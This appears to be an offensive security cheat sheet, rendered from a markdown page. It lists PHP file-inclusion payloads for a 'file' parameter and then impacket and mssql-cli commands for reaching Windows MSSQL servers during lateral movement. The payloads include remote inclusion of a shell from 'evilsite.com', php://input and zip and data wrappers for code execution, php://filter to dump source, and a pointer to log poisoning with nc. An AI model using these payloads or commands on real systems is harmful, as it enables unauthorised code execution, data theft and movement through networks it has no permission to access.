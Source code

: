## including remote code
- `?file=[http|https|ftp]://evilsite.com/shell.txt`

## using php stream php://input 
- `?file=php://input`  

## using zip wrapper zip://input 
- `?file=zip://path/file.zip%23rce.php`

## specify your payload in the post parameters
### using php stream php://filter
- `?file=php://filter/convert.base64-encode/resource=index.php`

### using data uri
- `?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=`

### using xss
- `?file=http://127.0.0.1/path/xss.php?xss=phpcode`

## inject php code in logfile with nc and retrieve it afterwards
> search for nc

--- 

# mssqlclient.py
- service: sql
- tactics: lateral_movement
- suites: impacket

## connect to windows mssql Server
- `mssqlclient.py -windows-auth username@target-ip`

---

# mssql-cli
- service: sql
- tactics: lateral_movement

## connect to windows mssql Server
- `mssql-cli -S target-ip -U username`

---

